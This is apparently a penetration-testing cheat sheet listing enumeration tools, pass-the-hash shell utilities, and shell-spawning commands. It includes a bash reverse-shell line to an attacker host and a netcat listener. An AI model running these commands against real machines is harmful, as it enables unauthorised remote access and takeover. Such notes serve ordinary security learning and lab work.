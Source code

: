````markdown
## Useful Commands for Enumeration, Shells, and Exploitation

### Shell Access & Privilege Utilities

- `winexe` – To spawn a CMD shell  
- `pth-winexe` – To spawn a CMD shell by passing the NTLM hash  
- `(Ubuntu) getcap` – To check capabilities of binaries with elevated privileges  
- `ltrace` – Debugging tool to trace library calls  
- `whatweb` – To quickly get web application and server details  
- `dirb`, `gobuster` – Directory brute-forcing tools  
- `ffuf` – Fast web fuzzer for finding subdomains or directories  
- `grep -rni "String" *` – Recursively search for a string in a directory (case-insensitive)  
- `enum4linux` – SMB enumeration tool (sometimes very handy)
````

### Shell Spawning

To spawn a stable interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

To spawn a reverse shell from the victim machine:

```bash
bash -i >& /dev/tcp/<kali-ip>/<desired-port> 0>&1
```

To stabilize the shell after suspending with Ctrl+Z:

```bash
stty raw -echo; fg
```

To use arrow keys and tab completion with Netcat:

```bash
rlwrap nc -lvnp <port>
```
